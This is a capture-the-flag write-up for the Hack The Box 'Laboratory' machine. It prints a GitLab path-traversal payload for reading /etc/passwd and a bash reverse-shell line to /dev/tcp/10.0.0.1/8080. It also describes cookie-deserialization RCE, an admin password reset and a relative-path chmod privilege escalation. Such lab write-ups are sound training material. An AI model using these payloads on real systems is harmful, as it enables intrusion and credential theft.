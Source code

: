 ```yaml
---
title: Laboratory HTB
date: '2021-04-17 16:00:00'
categories: ["htb"]
---
```


# Laboratory 🧪

# User

First we start by scanning the provided ip using nmap.

![nmap](https://user-images.githubusercontent.com/16364370/102066204-8a1ee980-3dc7-11eb-84ca-b93bca7d749d.png)

We have 3 common ports available, first lets visit port 80 using our web browser.
We get redirected to a hostname *https://laboratory.htb/* on https. Let add this to our hosts file.

![Websiteport80 png](https://user-images.githubusercontent.com/16364370/102066209-8b501680-3dc7-11eb-8d0e-713ccef8df86.png)

We don't get any usefull info from here besides some clients names we may need later.

![Websiteport80](https://user-images.githubusercontent.com/16364370/102066208-8ab78000-3dc7-11eb-9e99-c23f2c9ee270.png)

Looking again at Nmap result we got another hostname *git.laboratory.htb*. Nmap took this from the ssl Subject Alternative Name.I add this to my hosts file and visit it.

![gitlab](https://user-images.githubusercontent.com/16364370/102066199-89865300-3dc7-11eb-94e8-473edd03c1db.png)

Gitlab is installed. Because I don't have any username or password I try to signup but there is a problem.

![emaildomainprohibited](https://user-images.githubusercontent.com/16364370/102066197-88edbc80-3dc7-11eb-9559-034a74fecc04.png)

I try to enter an email like this *fuxsocy@laboratory.htb* and it works. Now that I am logged in I can visit https://git.laboratory.htb/help and see which version this gitlab instance is.

![gitlabversion](https://user-images.githubusercontent.com/16364370/102066202-89865300-3dc7-11eb-9303-ccd34cf5fe8d.png)

After knowing the version I search for exploits. 
There is an open report disclosed via hackerone to gitlab team about an lfi https://hackerone.com/reports/827052.
We can read internal files by creating two repositories `a` and `b`. Then we create an issue on the repo `a` by adding a description `![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)` where `/etc/passwd` is the file we want to read. We then move this created issue to repository `b` and the file will be available to download. But we need to get a shell on the machine. I tried to get ssh private keys but I was unable. Looking at the same report on hackerone the author also provided a way to gain rce.

![rcegitlab](https://user-images.githubusercontent.com/16364370/102066205-8ab78000-3dc7-11eb-83ce-090f172a05d0.png)

I was able to get the _secret_key_base_ file so I continued with the exploit. To do this I created a docker instance on a digitalocean vps as my machine is a slow and docker with gitlab needs a lot of resources(I tried it lol). 
First we install docker.

![docker io install](https://user-images.githubusercontent.com/16364370/102066610-06193180-3dc8-11eb-8e43-fe7f6b8e42a4.png)

Going to [dockerhub](https://hub.docker.com/) we find a docker version which is vulnerable. [Here](https://hub.docker.com/r/gitlab/gitlab-ce/tags?page=4&ordering=last_updated) is the page which has a version prior to the one which is vulnerable. I use version 12.8.6-ce.0 , ce indicates community edition.
These commands will install gitlab inside a docker container.

![gitlabinstalldocker](https://user-images.githubusercontent.com/16364370/102066642-103b3000-3dc8-11eb-9a24-d909766eac95.png)

This will take some time to complete, and start. I enter docker using the following commands.

![dockerenter](https://user-images.githubusercontent.com/16364370/102080898-4636df00-3ddd-11eb-9edd-9f34fcac28dc.png)

Now I need to get the file `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` from laboratory machine using lfi and then replace it with the one inside the docker container. After we enter `gitlab-rails console` and try to create a cookie with a payload which will send a get request to test if the payload works.

![cookie exploit](https://user-images.githubusercontent.com/16364370/102080890-43d48500-3ddd-11eb-8ee4-ce1c2aacfc17.png)

Now we copy this and send it using curl.

![curlsend](https://user-images.githubusercontent.com/16364370/102080893-4505b200-3ddd-11eb-92d9-57a821a11e5e.png)

And we successfully get a connection back.

![exploitworkstest](https://user-images.githubusercontent.com/16364370/102080900-46cf7580-3ddd-11eb-8946-084db386f20d.png)

I do the same, the first command will be to fetch a file containing `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1` form my web server. The second command will make it executable using `chmod` and the final command will run it. Each of the command are sent reparately.

![gotshell](https://user-images.githubusercontent.com/16364370/102080904-47680c00-3ddd-11eb-81ec-2cb4b2c78cea.png)

I am inside the docker container which contains gitlab. I can now enter `gitlab-rails console` and change `administrator` password which will give me access to all repositories.

![gitlab-railsconsolepasswordchange](https://user-images.githubusercontent.com/16364370/102080903-47680c00-3ddd-11eb-952f-c9229c30499e.png)

Dexter is the administrator username and the password I just changed it to `secret_pass`.
When loggin in as dexter we can see all repositories, but the one repo from dexter contained an id_rsa ssh key.

![dexteridrsasshkey](https://user-images.githubusercontent.com/16364370/102080894-4505b200-3ddd-11eb-9ef1-b1e8b1e789eb.png)

I use with ssh and get user.txt

![dexterssh](https://user-images.githubusercontent.com/16364370/102080896-459e4880-3ddd-11eb-92c0-3795c17820ce.png)

# Root

Looking at todo.txt we see a todo which is highlighted:

![dockersecurityroot](https://user-images.githubusercontent.com/16364370/102080899-4636df00-3ddd-11eb-9a0f-6e8608b43d5f.png)

I find a file _docker-security_ located in **/usr/local/bin/docker-security** which has setuid bit set. I copy the binary to my machine using nc and then I run strings on it.

![runschmod](https://user-images.githubusercontent.com/16364370/102080908-48993900-3ddd-11eb-8da6-1509d2c60cfa.png)

Looking into this we can see that it runs chmod using relative path. So If we change our terminal path to a directory we want and then create a malicious file named chmod it will run that file instead resulting in running root code for us.

![privescchmodrelativepath](https://user-images.githubusercontent.com/16364370/102080906-4800a280-3ddd-11eb-9341-f3d443138750.png)

And We get our connection back and read root.txt.

![root](https://user-images.githubusercontent.com/16364370/102080907-4800a280-3ddd-11eb-8781-f921fc729e70.png)


